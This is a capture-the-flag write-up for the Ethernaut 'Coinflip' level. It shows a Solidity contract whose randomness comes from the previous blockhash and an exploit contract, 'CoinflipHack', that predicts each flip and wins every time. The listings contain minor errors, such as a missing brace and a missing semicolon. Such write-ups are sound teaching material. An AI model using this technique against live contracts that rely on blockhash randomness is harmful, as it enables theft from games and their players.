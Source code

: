 ```yaml
---
title: Ethernaut 0x3 - Coinflip Walkthrough
date: 2021-04-19 10:54:43.423 +0800
categories:
  - "Write Up"
---
```


### Overview

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

`Coinflip.sol`

```solidity
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/cec0800c541c809f883a37f2dfb91ec4c90263c5/contracts/math/SafeMath.sol";

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

### Randomness in Solidity

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

### Solution

Head over to [Remix IDE](https://remix.ethereum.org/) and deploy a cloned version of `Coinflip.sol`

The new contract will contain a function which will pre-compute the pseudo randomness of each flips for us. Only the "correct" guesses will be sent to the main contract.

`CoinflipHack.sol`

```solidity
pragma solidity ^0.6.0;

import './Coinflip.sol'

contract CoinflipHack {
    address private instance = 0xC738b5c78719Bbb60C7095acdA04D9C9084316b0;
    CoinFlip public originalContract = CoinFlip(instance);
    
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function hackFlip(bool _guess) public {
        
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
          originalContract.flip(_guess);
        } else {
          originalContract.flip(!_guess);
        }
    }
}
```


